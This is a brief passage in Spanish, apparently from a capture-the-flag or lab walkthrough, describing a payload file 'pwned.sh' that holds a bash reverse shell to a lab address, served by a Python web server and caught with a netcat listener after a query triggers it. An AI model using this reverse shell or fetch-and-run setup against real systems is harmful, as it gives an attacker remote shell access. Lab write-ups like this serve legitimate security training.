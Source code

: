 ![paste](./images/8.jpeg)

## Pwned.sh 

Este será el pyload para que la maquina lo ejecute,(el usuario quien sabe quien es)

```bash 
#!/bin/bash
bash -i >& /dev/tcp/10.10.XX.XX/PORT 0>&1
```

Y par que funcione bien;
- Primero ejecutamos el servidor de Python por el puerto 80 donde se encuentra el archivo pwned.sh
- En otra terminal usando **nc** estaremos en escucha por el puerto que indicamos en el pwned.sh
- Y por ultimo mandamos la query 



![paste](./images/9.jpeg)
